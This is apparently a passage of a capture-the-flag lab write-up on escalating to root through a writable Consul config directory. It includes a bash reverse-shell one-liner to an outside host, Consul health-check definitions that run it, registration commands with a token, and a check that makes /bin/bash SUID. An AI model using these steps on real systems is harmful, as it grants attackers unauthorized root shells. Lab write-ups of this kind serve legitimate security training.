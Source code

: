 ![](https://i.imgur.com/ahym7v4.png)

We'll first create a bash script to trigger the reverse shell

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.72/2222 0>&1'
```

![](https://i.imgur.com/HhcftKi.png)

Next creating the health check script

```json
check = {
  id = "1"
  name = "priuwv-euwsc"
  args = ["/bin/bash","/tmp/shell.sh"]
  interval = "10s"
  timeout = "1s"
}

```
![](https://i.imgur.com/3Sk4Tib.png)

Now copying this file `/etc/consul.d/config.d/` as we the folder is owned by developer group

```bash
cp ./test.hcl /etc/consul.d/config.d/
```

And we are going to register the health check and realod to check for new service or update

```bash
consul services register -token=bb03b43b-1d81-d62b-24b5-39540ee469b5 /etc/consul.d/config.d/test.hcl

consul reload -token=bb03b43b-1d81-d62b-24b5-39540ee469b5
```

![](https://i.imgur.com/bL56h7G.png)

This will give us a shell back as root user but the connection just closes

![](https://i.imgur.com/GxZZIBE.png)

So we could make bash a SUID instead or could put a ssh in root's directory, so I went with making SUID

```bash
check = {
  id = "1"
  name = "priuwv-euwsc"
  args = ["/usr/bin/chmod","4777","/bin/bash"]
  interval = "10s"
  timeout = "1s"
}
```

